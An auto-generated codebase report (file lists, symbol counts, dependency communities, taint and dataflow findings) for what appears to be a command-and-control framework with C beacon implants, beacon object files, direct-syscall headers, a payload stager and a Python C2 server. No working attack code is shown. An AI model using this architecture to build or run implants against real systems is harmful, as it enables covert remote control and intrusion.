# Polyglot Codebase Knowledge Graph

> Generated offline by **readmenator**. 179 files, 1587 symbols, 969 imports. Supports C, C++, Python, Go, Rust, JS/TS, Java, C#, Shell, PHP, Dart, GDScript, Nim, ASM, Ruby, Swift, Kotlin, Scala, Lua, Elixir.
> No LLMs. No tokens. Pure static analysis. See more [here](https://github.com/grisuno/ReadMenator)

**Start here:** Statistics Dashboard for scope, God Nodes for blast radius, Architecture Reference for per-file API. Agents: prefer `readmenator-agent/INDEX.md` + `SYMBOLS.md`.

**Wiki:** prefer `readmenator-wiki/index.md` for progressive disclosure: one synthesis page per community, `connections.json` with EXTRACTED vs INFERRED confidence, `queries.md` log, `REPORT.md` audit.

**Confidence:** EXTRACTED = parsed from source, INFERRED = heuristic bridge, AMBIGUOUS = reported, never hidden. See `readmenator-wiki/REPORT.md`.

**Total Files Parsed:** 179 | **Total Symbols Extracted:** 1587 | **Total Imports:** 969
 | **Resolved Imports:** 97

<!-- ranking_model: v1.0 | weights: {ppr:0.45,auth:0.2,test:0.15,doc:0.1,fresh:0.1} | alpha:0.85 | commit:ad6093f | date:2026-07-18 -->


## Table of Contents

1. [Statistics Dashboard](#statistics-dashboard)
2. [Architectural Layers](#architectural-layers)
3. [Architecture Overview](#architecture-overview)
4. [Execution Flows](#execution-flows)
5. [Ranked Context](#ranked-context)
6. [God Nodes](#god-nodes)
7. [Community Analysis](#community-analysis)
8. [Surprising Connections](#surprising-connections)
9. [Suggested Questions](#suggested-questions)
10. [Force-Graph Explorer](#force-graph-explorer)
11. [Corpus Analytics](#corpus-analytics)
12. [Taint Propagation Map](#taint-propagation-map)
13. [Hotspot Analysis](#hotspot-analysis)
14. [Change Impact Analysis](#change-impact-analysis)
15. [Suggested Linting Rules](#suggested-linting-rules)
16. [Dataflow Analysis](#dataflow-analysis)
17. [Concept Graph](#concept-graph)
18. [Orphans](#orphans)
19. [Query Recipes](#query-recipes)
20. [Structural Knowledge Map](#structural-knowledge-map)
21. [UML Class Diagram](#uml-class-diagram)
22. [Code Property Graph](#code-property-graph)
23. [Architecture Reference](#architecture-reference)
    - [C (92 files)](#c-92-files)
    - [H (31 files)](#h-31-files)
    - [PY (54 files)](#py-54-files)
    - [SH (2 files)](#sh-2-files)

---

## Statistics Dashboard

| Metric | Value |
|--------|-------|
| Total Files | 179 |
| Total Symbols | 1587 |
| Total Imports | 969 |
| Call Edges | 3075 |
| Inheritance Edges | 2 |
| Languages | 4 |
| Avg Symbols/File | 8.9 |
| Avg Imports/File | 5.4 |
| Resolved Imports | 97 |

### Top Files by Import Count (Fan-Out)

| File | Imports | Symbols | Language |
|------|---------|---------|----------|
| `beacon5.c` | 31 | 44 | c |
| `test_hkdf_key_derivation.py` | 31 | 19 | py |
| `beacon6.c` | 30 | 32 | c |
| `beacon_p2p.c` | 30 | 49 | c |
| `beacon3.c` | 29 | 28 | c |
| `beacon_common.c` | 26 | 36 | c |
| `gopher_beacon.c` | 26 | 28 | c |
| `v1_gopher_beacon.c` | 26 | 28 | c |
| `test_certificate_pinning.py` | 26 | 24 | py |
| `test_c2_http_e2e.py` | 24 | 9 | py |

### Top Files by Imported-By Count (Fan-In)

| File | Imported By | Symbols | Language |
|------|-------------|---------|----------|
| `cJSON.h` | 12 | 40 | h |
| `aes.h` | 10 | 21 | h |
| `beacon.h` | 7 | 13 | h |

---

## Architectural Layers

Auto-detected from path patterns, naming conventions, and imported frameworks.

| Layer | Files |
|-------|-------|
| utility | 73 |
| testing | 71 |
| infrastructure | 22 |
| presentation | 13 |

### utility

- `aes.c` (c, 43 symbols)
- `aes.h` (h, 21 symbols)
- `app.py` (py, 0 symbols)
- `beacon.h` (h, 13 symbols)
- `beacon.c` (c, 4 symbols)
- `beacon.c` (c, 11 symbols)
- `beacon.c` (c, 7 symbols)
- `bof.c` (c, 1 symbols)
- `bof.c` (c, 1 symbols)
- `cat.c` (c, 12 symbols)
- `syscalls.h` (h, 38 symbols)
- `bof.c` (c, 2 symbols)
- `is_sudo.c` (c, 17 symbols)
- `bof.c` (c, 15 symbols)
- `bof.c` (c, 2 symbols)
- *... and 58 more*

### presentation

- `beacon_api.h` (h, 14 symbols)
- `beacon_heartbeat___health_endpoint.h` (h, 2 symbols)
- `bof_api_versioning.h` (h, 2 symbols)
- `c2_rest_api.h` (h, 2 symbols)
- `socks5___http_proxy_support.h` (h, 2 symbols)
- `beacon_heartbeat___health_endpoint.c` (c, 1 symbols)
- `bof_api_versioning.c` (c, 1 symbols)
- `c2_rest_api.c` (c, 1 symbols)
- `socks5___http_proxy_support.c` (c, 1 symbols)
- `beacon_heartbeat___health_endpoint.c` (c, 1 symbols)
- `bof_api_versioning.c` (c, 1 symbols)
- `c2_rest_api.c` (c, 1 symbols)
- `socks5___http_proxy_support.c` (c, 1 symbols)

### infrastructure

- `generate_parsers.py` (py, 7 symbols)
- `config.c` (c, 28 symbols)
- `config.h` (h, 21 symbols)
- `config_autogen.c` (c, 18 symbols)
- `config_autogen.h` (h, 12 symbols)
- `config_py.py` (py, 3 symbols)
- `config_py_autogen.py` (py, 3 symbols)
- `containerized_build_+_sbom.h` (h, 1 symbols)
- `structured_jsonl_logging.h` (h, 2 symbols)
- `tls_client_certificate_authentication.h` (h, 2 symbols)
- `unified_config_schema.h` (h, 2 symbols)
- `containerized_build_+_sbom.c` (c, 0 symbols)
- `structured_jsonl_logging.c` (c, 1 symbols)
- `tls_client_certificate_authentication.c` (c, 1 symbols)
- `unified_config_schema.c` (c, 1 symbols)
- *... and 7 more*

### testing

- `mutation_testing_integration.h` (h, 2 symbols)
- `mutation_testing_integration.c` (c, 1 symbols)
- `crypto_harness.c` (c, 2 symbols)
- `test_async_i_o_for_beacon.py` (py, 2 symbols)
- `test_async_i_o_for_beacon_c.c` (c, 2 symbols)
- `test_beacon_build.py` (py, 8 symbols)
- `test_beacon_common.c_extraction.py` (py, 0 symbols)
- `test_beacon_common.c_extraction_c.c` (c, 1 symbols)
- `test_beacon_heartbeat___health_endpoint.py` (py, 2 symbols)
- `test_beacon_heartbeat___health_endpoint_c.c` (c, 2 symbols)
- `test_bof_api_versioning.py` (py, 2 symbols)
- `test_bof_api_versioning_c.c` (c, 2 symbols)
- `test_bof_compile.py` (py, 7 symbols)
- `test_bof_path_traversal_hardening.py` (py, 2 symbols)
- `test_bof_path_traversal_hardening_c.c` (c, 2 symbols)
- *... and 56 more*

---

## Architecture Overview

29 components stacked in 2 dependency tiers (weighted Eades-Lin-Smyth ordering: arrows point from dependent to dependency, top to bottom). Labels are import counts, thick arrows the top quartile; 0 transitively implied edges are omitted. Dashed red arrows are upward dependencies: the smallest set of imports that closes every cycle and breaks the layering. Cyan components hold entry points. Interactive version: `readmenator-apidocs/index.html#/flows`.


---

## Execution Flows

Entry points are scored from `__main__` guards, `main` functions, entry-style names and files, and call-graph sources. Each flow walks resolved calls in call-site order (depth <= 4, <= 40 steps); numbers give the call order, dashed arrows revisit an already expanded callee, red arrows are recursion. Interactive version with zoom and per-node docs: `readmenator-apidocs/index.html#/flows`.

### `cJSON.CJSON_PUBLIC`

`cJSON.c:1143`, score 13: call-graph source with 7 calls; call-graph source with 3 calls; call-graph source with 4 calls.

Call tree:



Cross-file sequence:



### `cJSON.CJSON_PUBLIC`

`include/cJSON.c:1143`, score 13: call-graph source with 7 calls; call-graph source with 3 calls; call-graph source with 4 calls.

Call tree:


Cross-file sequence:


### `beacon.main`

`beacons/v1/beacon.c:167`, score 11: `main` in a compiled-language file; entry-style name `main`.

Call tree:



Cross-file sequence:



---

## Ranked Context

Files ranked by composite score for the current query context. The ranking combines Personalized PageRank (query relevance), global authority, test coverage, documentation coverage, and code freshness. Model: v1.0.

| Rank | File | Composite | PPR | Authority | Test | Doc |
|------|------|-----------|-----|-----------|------|-----|
| 1 | `config_py.py` | 0.1715 | 0.0588 | 0.0588 | 0.00 | 1.33 |
| 2 | `test_async_i_o_for_beacon.py` | 0.1500 | 0.0000 | 0.0000 | 0.00 | 1.50 |
| 3 | `test_beacon_heartbeat___health_endpoint.py` | 0.1500 | 0.0000 | 0.0000 | 0.00 | 1.50 |
| 4 | `test_bof_api_versioning.py` | 0.1500 | 0.0000 | 0.0000 | 0.00 | 1.50 |
| 5 | `test_bof_path_traversal_hardening.py` | 0.1500 | 0.0000 | 0.0000 | 0.00 | 1.50 |
| 6 | `test_bof_streaming_(large_outputs).py` | 0.1500 | 0.0000 | 0.0000 | 0.00 | 1.50 |
| 7 | `test_c2_rest_api.py` | 0.1500 | 0.0000 | 0.0000 | 0.00 | 1.50 |
| 8 | `test_certificate_pinning___tofu.py` | 0.1500 | 0.0000 | 0.0000 | 0.00 | 1.50 |
| 9 | `test_command_execution_via_execve.py` | 0.1500 | 0.0000 | 0.0000 | 0.00 | 1.50 |
| 10 | `test_hkdf_key_derivation.py` | 0.1500 | 0.0000 | 0.0000 | 0.00 | 1.50 |

**Query anchors:** contract_agent.py

---

## God Nodes

Most architecturally central files ranked by combined import/export degree and symbol richness.

| File | Score | Connections | PageRank |
|------|-------|-------------|----------|
| `cJSON.h` | 28.0 | | 0.0000 |
| `server.py` | 27.2 | | 0.0000 |
| `aes.h` | 22.1 | | 0.0000 |
| `beacon_common.h` | 17.8 | | 0.0000 |
| `cJSON.c` | 16.5 | | 0.0000 |
| `config_py.py` | 16.3 | | 0.0588 |
| `beacon.h` | 15.3 | | 0.0000 |
| `cJSON.c` | 14.5 | | 0.0000 |
| `config.h` | 14.1 | | 0.0000 |
| `syscalls.h` | 13.8 | | 0.0000 |

---

## Community Analysis

Files grouped by import-based community detection. Cohesion measures how tightly connected each community is internally.

### legacy (Cohesion: 0.89)

**20 files** in this community:

- `aes.c` (c, 43 symbols)
- `aes.h` (h, 21 symbols)
- `beacon.h` (h, 13 symbols)
- `beacon.c` (c, 4 symbols)
- `beacon.c` (c, 11 symbols)
- `beacon.c` (c, 7 symbols)
- `bof.c` (c, 1 symbols)
- `cJSON.c` (c, 125 symbols)
- `cJSON.h` (h, 40 symbols)
- `beacon_common.c` (c, 36 symbols)
- `beacon_common.h` (h, 58 symbols)
- `cJSON.c` (c, 125 symbols)
- `cJSON.h` (h, 40 symbols)
- `beacon3.c` (c, 28 symbols)
- `beacon5.c` (c, 44 symbols)
- `beacon6.c` (c, 32 symbols)
- `beacon_p2p.c` (c, 49 symbols)
- `gopher_beacon.c` (c, 28 symbols)
- `v1_gopher_beacon.c` (c, 28 symbols)
- `test_iv_generation_c.c` (c, 7 symbols)

### c2 (Cohesion: 1.00)

**17 files** in this community:

- `__init__.py` (py, 0 symbols)
- `server.py` (py, 32 symbols)
- `config_py.py` (py, 3 symbols)
- `test_c2_http_e2e.py` (py, 9 symbols)
- `test_c2_server.py` (py, 11 symbols)
- `test_certificate_pinning.py` (py, 16 symbols)
- `test_bof_path_traversal.py` (py, 18 symbols)
- `test_c2_beacon_bof_integration.py` (py, 10 symbols)
- `test_c2_http_e2e.py` (py, 9 symbols)
- `test_c2_server.py` (py, 11 symbols)
- `test_certificate_pinning.py` (py, 24 symbols)
- `test_crypto.py` (py, 9 symbols)
- `test_hkdf_key_derivation.py` (py, 19 symbols)
- `test_iv_generation.py` (py, 17 symbols)
- `test_replay_protection.py` (py, 28 symbols)
- `test_runtime_random.py` (py, 12 symbols)
- `test_stage.py` (py, 29 symbols)

### bof/include (Cohesion: 1.00)

**7 files** in this community:

- `bof.c` (c, 1 symbols)
- `beacon_api.h` (h, 14 symbols)
- `syscalls.h` (h, 38 symbols)
- `bof.c` (c, 2 symbols)
- `bof.c` (c, 15 symbols)
- `bof.c` (c, 2 symbols)
- `bof.c` (c, 1 symbols)

### include: aes (Cohesion: 0.62)

**6 files** in this community:

- `aes.c` (c, 43 symbols)
- `aes.h` (h, 21 symbols)
- `aes_cfb.c` (c, 4 symbols)
- `aes_cfb.h` (h, 3 symbols)
- `crypto_harness.c` (c, 2 symbols)
- `crypto_harness.c` (c, 2 symbols)

### include: config (Cohesion: 0.83)

**6 files** in this community:

- `config.c` (c, 28 symbols)
- `config.h` (h, 21 symbols)
- `config_harness.c` (c, 1 symbols)
- `config_harness.c` (c, 1 symbols)
- `test_certificate_pinning_c.c` (c, 5 symbols)
- `test_hkdf_key_derivation_c.c` (c, 11 symbols)

### mutants/src: async_i_o_for_beacon (Cohesion: 1.00)

**3 files** in this community:

- `async_i_o_for_beacon.h` (h, 2 symbols)
- `async_i_o_for_beacon.c` (c, 1 symbols)
- `async_i_o_for_beacon.c` (c, 1 symbols)

### mutants/src: beacon_common.c_extraction (Cohesion: 1.00)

**3 files** in this community:

- `beacon_common.c_extraction.h` (h, 1 symbols)
- `beacon_common.c_extraction.c` (c, 0 symbols)
- `beacon_common.c_extraction.c` (c, 0 symbols)

### mutants/src: beacon_heartbeat___health_endpoint (Cohesion: 1.00)

**3 files** in this community:

- `beacon_heartbeat___health_endpoint.h` (h, 2 symbols)
- `beacon_heartbeat___health_endpoint.c` (c, 1 symbols)
- `beacon_heartbeat___health_endpoint.c` (c, 1 symbols)

### mutants/src: bof_api_versioning (Cohesion: 1.00)

**3 files** in this community:

- `bof_api_versioning.h` (h, 2 symbols)
- `bof_api_versioning.c` (c, 1 symbols)
- `bof_api_versioning.c` (c, 1 symbols)

### mutants/src: bof_path_traversal_hardening (Cohesion: 1.00)

**3 files** in this community:

- `bof_path_traversal_hardening.h` (h, 2 symbols)
- `bof_path_traversal_hardening.c` (c, 1 symbols)
- `bof_path_traversal_hardening.c` (c, 1 symbols)

### mutants/src: bof_streaming_(large_outputs) (Cohesion: 1.00)

**3 files** in this community:

- `bof_streaming_(large_outputs).h` (h, 2 symbols)
- `bof_streaming_(large_outputs).c` (c, 1 symbols)
- `bof_streaming_(large_outputs).c` (c, 1 symbols)

### mutants/src: c2_rest_api (Cohesion: 1.00)

**3 files** in this community:

- `c2_rest_api.h` (h, 2 symbols)
- `c2_rest_api.c` (c, 1 symbols)
- `c2_rest_api.c` (c, 1 symbols)

### mutants/src: certificate_pinning___tofu (Cohesion: 1.00)

**3 files** in this community:

- `certificate_pinning___tofu.h` (h, 2 symbols)
- `certificate_pinning___tofu.c` (c, 1 symbols)
- `certificate_pinning___tofu.c` (c, 1 symbols)

### mutants/src: command_execution_via_execve (Cohesion: 1.00)

**3 files** in this community:

- `command_execution_via_execve.h` (h, 2 symbols)
- `command_execution_via_execve.c` (c, 1 symbols)
- `command_execution_via_execve.c` (c, 1 symbols)

### mutants/src: containerized_build_+_sbom (Cohesion: 1.00)

**3 files** in this community:

- `containerized_build_+_sbom.h` (h, 1 symbols)
- `containerized_build_+_sbom.c` (c, 0 symbols)
- `containerized_build_+_sbom.c` (c, 0 symbols)

### mutants/src: hkdf_key_derivation (Cohesion: 1.00)

**3 files** in this community:

- `hkdf_key_derivation.h` (h, 2 symbols)
- `hkdf_key_derivation.c` (c, 1 symbols)
- `hkdf_key_derivation.c` (c, 1 symbols)

### mutants/src: iv_generation_with_entropy_verification (Cohesion: 1.00)

**3 files** in this community:

- `iv_generation_with_entropy_verification.h` (h, 2 symbols)
- `iv_generation_with_entropy_verification.c` (c, 1 symbols)
- `iv_generation_with_entropy_verification.c` (c, 1 symbols)

### mutants/src: mutation_testing_integration (Cohesion: 1.00)

**3 files** in this community:

- `mutation_testing_integration.h` (h, 2 symbols)
- `mutation_testing_integration.c` (c, 1 symbols)
- `mutation_testing_integration.c` (c, 1 symbols)

### mutants/src: pre-commit_+_ci_hardening (Cohesion: 1.00)

**3 files** in this community:

- `pre-commit_+_ci_hardening.h` (h, 1 symbols)
- `pre-commit_+_ci_hardening.c` (c, 0 symbols)
- `pre-commit_+_ci_hardening.c` (c, 0 symbols)

### mutants/src: replay_protection (Cohesion: 1.00)

**3 files** in this community:

- `replay_protection.h` (h, 2 symbols)
- `replay_protection.c` (c, 1 symbols)
- `replay_protection.c` (c, 1 symbols)

### mutants/src: socks5___http_proxy_support (Cohesion: 1.00)

**3 files** in this community:

- `socks5___http_proxy_support.h` (h, 2 symbols)
- `socks5___http_proxy_support.c` (c, 1 symbols)
- `socks5___http_proxy_support.c` (c, 1 symbols)

### mutants/src: structured_jsonl_logging (Cohesion: 1.00)

**3 files** in this community:

- `structured_jsonl_logging.h` (h, 2 symbols)
- `structured_jsonl_logging.c` (c, 1 symbols)
- `structured_jsonl_logging.c` (c, 1 symbols)

### mutants/src: tls_client_certificate_authentication (Cohesion: 1.00)

**3 files** in this community:

- `tls_client_certificate_authentication.h` (h, 2 symbols)
- `tls_client_certificate_authentication.c` (c, 1 symbols)
- `tls_client_certificate_authentication.c` (c, 1 symbols)

### mutants/src: unified_config_schema (Cohesion: 1.00)

**3 files** in this community:

- `unified_config_schema.h` (h, 2 symbols)
- `unified_config_schema.c` (c, 1 symbols)
- `unified_config_schema.c` (c, 1 symbols)

### include: config_autogen (Cohesion: 1.00)

**2 files** in this community:

- `config_autogen.c` (c, 18 symbols)
- `config_autogen.h` (h, 12 symbols)

---

## Surprising Connections

Files in different communities connected through 3+ indirect hops.

- `bof.c` <-> `config.c` (7 hops, across 2 communities)
- `bof.c` <-> `config_harness.c` (7 hops, across 2 communities)
- `bof.c` <-> `config_harness.c` (7 hops, across 2 communities)
- `bof.c` <-> `test_certificate_pinning_c.c` (7 hops, across 2 communities)
- `bof.c` <-> `test_hkdf_key_derivation_c.c` (7 hops, across 2 communities)

---

## Suggested Questions

Auto-generated exploration prompts based on graph structure:

- What does cJSON.h depend on, and what depends on it? (12 connections)
- What does server.py depend on, and what depends on it? (12 connections)
- What does aes.h depend on, and what depends on it? (10 connections)
- How are the 20 files in 'legacy' related to each other?
- Why are bof.c and config.c connected through 7 hops across 2 communities?

---

## Force-Graph Explorer

Heterogeneous explorer payload (files, communities, layers, externals) rendered with force-graph physics, stable family colors, log2 node sizing, and convex-hull community overlays. Open `readmenator-maps/graph-force.html` (linked from the maps gallery) or run `explorer`.

- Nodes: 289 (community: 25, external: 81, file: 179, layer: 4)
- Edges: 1271

---

## Corpus Analytics

Attribution funnel and distributions for the explorer dashboard.

- Files: 179 | With symbols: 165 | Attributed: 115 | God nodes: 10 | Symbols: 1587

- Layer `utility`: 73 files
- Layer `testing`: 71 files
- Layer `infrastructure`: 22 files
- Layer `presentation`: 13 files

- Language `c`: 92 files
- Language `py`: 54 files
- Language `h`: 31 files
- Language `sh`: 2 files

---

## Taint Propagation Map

Taint analysis traces how dangerous imports propagate through the codebase via transitive dependencies. Source files import dangerous modules directly; sink files receive the danger indirectly.

**Taint Sources:** 15 | **Taint Sinks:** 17 | **Propagation Paths:** 20

- `server.py` imports `subprocess` (0 hop to `server.py`) [high]
  Path: server.py
- `server.py` imports `subprocess` (1 hop to `config_py.py`) [high]
  Path: server.py -> config_py.py
- `stage_payload.py` imports `urllib.request` (0 hop to `stage_payload.py`) [medium]
  Path: stage_payload.py
- `contract_agent.py` imports `subprocess` (0 hop to `contract_agent.py`) [high]
  Path: contract_agent.py
- `command_execution_via_execve.c` imports `exec` (0 hop to `command_execution_via_execve.c`) [critical]
  Path: command_execution_via_execve.c
- `command_execution_via_execve.c` imports `exec` (1 hop to `command_execution_via_execve.h`) [critical]
  Path: command_execution_via_execve.c -> command_execution_via_execve.h
- `test_beacon_build.py` imports `subprocess` (0 hop to `test_beacon_build.py`) [high]
  Path: test_beacon_build.py
- `test_bof_compile.py` imports `subprocess` (0 hop to `test_bof_compile.py`) [high]
  Path: test_bof_compile.py
- `test_config.py` imports `subprocess` (0 hop to `test_config.py`) [high]
  Path: test_config.py
- `test_crypto.py` imports `subprocess` (0 hop to `test_crypto.py`) [high]
  Path: test_crypto.py
- `test_install_deploy.py` imports `subprocess` (0 hop to `test_install_deploy.py`) [high]
  Path: test_install_deploy.py
- `mutation_test_c.py` imports `subprocess` (0 hop to `mutation_test_c.py`) [high]
  Path: mutation_test_c.py
- `command_execution_via_execve.c` imports `exec` (0 hop to `command_execution_via_execve.c`) [critical]
  Path: command_execution_via_execve.c
- `command_execution_via_execve.c` imports `exec` (1 hop to `command_execution_via_execve.h`) [critical]
  Path: command_execution_via_execve.c -> command_execution_via_execve.h
- `test_beacon_build.py` imports `subprocess` (0 hop to `test_beacon_build.py`) [high]
  Path: test_beacon_build.py
- `test_bof_compile.py` imports `subprocess` (0 hop to `test_bof_compile.py`) [high]
  Path: test_bof_compile.py
- `test_c2_beacon_bof_integration.py` imports `subprocess` (0 hop to `test_c2_beacon_bof_integration.py`) [high]
  Path: test_c2_beacon_bof_integration.py
- `test_c2_beacon_bof_integration.py` imports `subprocess` (1 hop to `server.py`) [high]
  Path: test_c2_beacon_bof_integration.py -> server.py
- `test_c2_beacon_bof_integration.py` imports `subprocess` (1 hop to `config_py.py`) [high]
  Path: test_c2_beacon_bof_integration.py -> config_py.py
- `test_certificate_pinning.py` imports `subprocess` (0 hop to `test_certificate_pinning.py`) [high]
  Path: test_certificate_pinning.py

---

## Hotspot Analysis

Files ranked by combined complexity (symbol count) and centrality (connection count). High-scoring files are architecturally critical and may need refactoring attention.

| File | Complexity | Centrality | Combined | Symbols | Connections |
|------|-----------|------------|----------|---------|-------------|
| `config_py.py` | 0.024 | 0.359 | 0.225 | 3 | 14 |
| `test_async_i_o_for_beacon.py` | 0.016 | 0.154 | 0.099 | 2 | 6 |
| `test_beacon_heartbeat___health_endpoint.py` | 0.016 | 0.154 | 0.099 | 2 | 6 |
| `test_bof_api_versioning.py` | 0.016 | 0.154 | 0.099 | 2 | 6 |
| `test_bof_path_traversal_hardening.py` | 0.016 | 0.154 | 0.099 | 2 | 6 |
| `test_bof_streaming_(large_outputs).py` | 0.016 | 0.154 | 0.099 | 2 | 6 |
| `test_c2_rest_api.py` | 0.016 | 0.154 | 0.099 | 2 | 6 |
| `test_certificate_pinning___tofu.py` | 0.016 | 0.154 | 0.099 | 2 | 6 |
| `test_command_execution_via_execve.py` | 0.016 | 0.154 | 0.099 | 2 | 6 |
| `test_hkdf_key_derivation.py` | 0.016 | 0.154 | 0.099 | 2 | 6 |
| `server.py` | 0.256 | 1.000 | 0.702 | 32 | 39 |
| `beacon_p2p.c` | 0.392 | 0.769 | 0.618 | 49 | 30 |
| `beacon5.c` | 0.352 | 0.795 | 0.618 | 44 | 31 |
| `beacon6.c` | 0.256 | 0.769 | 0.564 | 32 | 30 |
| `beacon_common.c` | 0.288 | 0.744 | 0.561 | 36 | 29 |

---

## Dataflow Analysis

Procedural intra-function dataflow findings (zero tokens, regex-based heuristics, all INFERRED). Each lead is grounded at file:line for manual review.

**50 findings** (DEAD_STORE: 8, UNCHECKED_ALLOC: 42).

| File | Function | Line | Kind | Variable | Description |
|------|----------|------|------|----------|-------------|
| `beacons/v1/beacon.c` | `report_result` | 78 | `UNCHECKED_ALLOC` | `full_enc` | Result of allocator stored in `full_enc` is never checked against NULL. |
| `beacons/v1/beacon.c` | `execute_command` | 111 | `UNCHECKED_ALLOC` | `payload` | Result of allocator stored in `payload` is never checked against NULL. |
| `beacons/v2/beacon.c` | `report_result` | 123 | `UNCHECKED_ALLOC` | `full_enc` | Result of allocator stored in `full_enc` is never checked against NULL. |
| `beacons/v2/beacon.c` | `execute_command` | 156 | `UNCHECKED_ALLOC` | `payload` | Result of allocator stored in `payload` is never checked against NULL. |
| `beacons/v3/beacon.c` | `report_result` | 116 | `UNCHECKED_ALLOC` | `full_enc` | Result of allocator stored in `full_enc` is never checked against NULL. |
| `beacons/v3/beacon.c` | `execute_command` | 149 | `UNCHECKED_ALLOC` | `payload` | Result of allocator stored in `payload` is never checked against NULL. |
| `c2/server.py` | `serve` | 892 | `UNCHECKED_ALLOC` | `sock` | Result of allocator stored in `sock` is never checked against NULL. |
| `cJSON.c` | `print_array` | 1676 | `DEAD_STORE` | `output_pointer` | `output_pointer` assigned at line 1676 but never read afterwards. |
| `cJSON.c` | `print_object` | 1908 | `DEAD_STORE` | `output_pointer` | `output_pointer` assigned at line 1908 but never read afterwards. |
| `gopher_c2.py` | `main` | 145 | `UNCHECKED_ALLOC` | `sock` | Result of allocator stored in `sock` is never checked against NULL. |
| `include/aes_cfb.c` | `aes256_cfb_encrypt` | 26 | `UNCHECKED_ALLOC` | `ciphertext` | Result of allocator stored in `ciphertext` is never checked against NULL. |
| `include/aes_cfb.c` | `aes256_cfb_decrypt` | 60 | `UNCHECKED_ALLOC` | `plaintext` | Result of allocator stored in `plaintext` is never checked against NULL. |
| `include/beacon_common.c` | `https_request` | 375 | `DEAD_STORE` | `chunk` | `chunk` assigned at line 375 but never read afterwards. |
| `include/beacon_common.c` | `base64_encode` | 461 | `UNCHECKED_ALLOC` | `buf` | Result of allocator stored in `buf` is never checked against NULL. |
